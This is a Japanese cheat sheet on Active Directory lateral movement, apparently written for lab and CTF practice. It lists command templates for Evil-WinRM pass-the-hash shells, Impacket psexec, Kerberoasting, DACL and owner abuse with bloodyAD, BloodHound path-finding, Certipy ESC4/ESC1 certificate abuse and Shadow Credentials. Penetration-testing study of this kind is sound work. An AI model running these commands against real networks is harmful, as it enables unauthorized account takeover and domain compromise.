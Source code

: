 # 横展開
横展開、奪取済みのユーザから別のユーザへと移り変わっていくテクニック

## WinRM
WinRMサービスが有効(通常5985/tcp)かつ、資格情報とアクセス許可がある場合にはEvil-WinRMというツール使用し、インタラクティブなPoweShellを取得できる。
```
evil-winrm -i <ipアドレス> -u <ユーザ名> -p <パスワード>
```

NTLMハッシュがわかる場合、以下の通りでもシェルを貼れる
```
evil-winrm -i ホスト名 -u administrator -H ハッシュ
```


## Impacket
[Impacket](https://github.com/fortra/impacket)はネットワークプロトコルを操作するためのPythonクラスのコレクションと説明されているものの、Windowsシステムへの侵入やデータ送出に役立つツールが多く含まれている

Kali Linuxでは/usr/share/doc/python3-impacket/examplesにある。

参考：https://tools.thehacker.recipes/impacket

### PsExec
SMB経由で被害者マシンとの間にシェルを貼る
```
python psexec.py Administrator@10.129.59.97
```
参考：https://book.hacktricks.xyz/v/jp/windows-hardening/lateral-movement/psexec-and-winexec

### Kerberoasting攻撃でパスワードハッシュを取得する
```
python3 GetUserSPNs.py test.local/john:password123 -dc-ip 10.10.10.1 -request
```
参考：https://www.crowdstrike.com/ja-jp/cybersecurity-101/cyberattacks/kerberoasting/

### mssqlclient
```
python3 mssqlclient.py 'sequel.htb/sa:MSSQLP@ssw0rd!@10.10.11.51'
```

### 所有者を変更する
```
impacket-owneredit -action write -new-owner 'user1' -target-dn '書き換え対象のDN' 'ドメイン名/user1':'user1のパスワード' -dc-ip DCのIP
```
参考：https://www.hackingarticles.in/abusing-ad-dacl-writeowner/

### user1がuser2のDACLを書き換え、フルアクセス権限を与える
```
impacket-dacledit  -action 'write' -rights 'FullControl' -principal 'user1' -target 'user2' 'ドメイン名/user1':'user1のパスワード'
```


## Bloodhound
Windowsのドメイン情報を図示できるツール。攻撃経路を考えるのに使用できる。
Ingestorsを攻撃対象マシンで実行してドメイン情報を集め、Bloodhoundで図示する流れとなっている。

ドメイン情報の収集はbloodhound-pythonを使用すると良い。Ingestorsの実行ファイルを攻撃対象マシンに送信して実行するよりも楽に実行できる
```
bloodhound-python -u ユーザ名 -p パスワード -d ドメイン名 -ns ネームサーバーのIP -c All
```

BloodhoundはBloodhound LegacyとBloodhound CEがある。自身の環境に応じて使用しやすい方を選択すれば良い

参考：
https://qiita.com/v_avenger/items/56ef4ae521af6579c058
https://devblog.lac.co.jp/entry/20231012


以下のような流れでオブジェクトを調査していくと良い
1. SEARCHで現在奪取できているアカウントを検索
2. 検索結果で表示されたノードをクリックし、ノードの詳細を確認する。
* 「Outbound Object Control」をクリックすると、そのアカウントで閲覧・編集可能なノード（アカウント等）が表示される
    * 例えば、別ノード（アカウント等）に対してGenericAll権限を持っていればパスワードリセットを行える可能性がある。持っている権限に応じてどのように攻撃を行っていくか考えると良い。
    https://gitee.com/scriptkiddies/hacktricks/blob/master/windows/active-directory-methodology/acl-persistence-abuse.md
* その他「Inbound Object Control」や「Member Of」を確認することでそのアカウント行える操作等を推測できる
    * 証明書登録に関するユーザは権限昇格を行うことができる可能性
    https://github.com/0xJs/RedTeaming_CheatSheet/blob/main/windows-ad/Domain-Privilege-Escalation.md#Active-Directory-Certificate-Services
3. 繋がっているノード（主に「Outbound Object Control」を調査）をクリックし、そのノードの詳細を確認する
4. 2～3を繰り返し、目的のノード（管理者権限を持つノードや権限昇格の可能性があるノード）を見つける
5. PATHFINDINGで現在奪取できているアカウントと目的のノードを指定し、他の経路が無いかも確認する


## BloodyAD
LinuxでADの操作を行うことができる
https://github.com/CravateRouge/bloodyAD

### user1がuser2のWriteOwner権限を持つときに、user2の所有者をuser1に変更する
```
bloodyAD --host 'IP' -d 'ドメイン名（例：test.htb）' -u 'user1' -p 'user1パスワード' set owner 'user2' 'user1'
```

### user1がuser2のDACLを書き換え、フルアクセス権限を与える
```
bloodyAD --host 'IP' -d 'ドメイン名' -u 'user1' -p 'user1パスワード' add genericAll 'user2' 'user1'
```

### user1がuser2のパスワードを変更
```
bloodyAD --host 'IP' -d 'ドメイン名' -u 'user1' -p 'user1パスワード' set password user2 user2の新パスワード
```

## Certipy-Ad
Active Directory 証明書サービス (AD CS) を列挙して悪用するための攻撃ツール。
Active Directoryの証明書の設定不備を狙った攻撃については以下を参照
https://www.riskinsight-wavestone.com/en/2021/06/microsoft-adcs-abusing-pki-in-active-directory-environment/

### ADの脆弱な証明書テンプレートを探す
```
certipy-ad find -vulnerable -dc-ip 'IP' -u 'user1@example.htb' -p 'user1パスワード'  -stdout -debug
```
-pの代わりに-hashes 'NTハッシュ'でも可能

https://github.com/0xJs/RedTeaming_CheatSheet/blob/main/windows-ad/Domain-Privilege-Escalation.md#Active-Directory-Certificate-Services

### ESC4（ユーザが証明書テンプレートを書き換え可能）の場合に、ESC1に対して脆弱な証明書テンプレートに書き換える
```
certipy-ad template -dc-ip 'IP' -u 'user1@example.htb' -p 'user1パスワード' -template 'EC4な証明書テンプレート名' -target '対象(例DC01.example.htb)' -save-old -debug
```

### ESC1に対して脆弱（クライアントが設定したSubject Alternative Name (SAN)を受け入れる）な場合に、任意ユーザのSANを追加した証明書テンプレートを取得する
```
certipy-ad req -dc-ip 'IP' -u 'user1@example.htb' -p 'user1パスワード' -ca 'CA名' -target '対象(例DC01.example.htb)' -template 'EC1な証明書テンプレート名' -upn 'SANに追加するUPN(例：administrator@example.htb)'
```

### PFXファイルを使用してNTハッシュを取得する
```
certipy-ad auth -pfx 'pfxファイル名' -dc-ip 'IP'
```

### Shadow Credentials
user1がuser2に対して十分な権限を持つ場合、NTハッシュを取得できる
user2のパスワードを書き換えたくない、またはKerberoasting攻撃で取得したハッシュを復号できない場合などに使用できる
```
certipy-ad shadow auto -u 'user1@example.htb' -p "user1パスワード" -account 'user2' -dc-ip 'IP'
```

https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab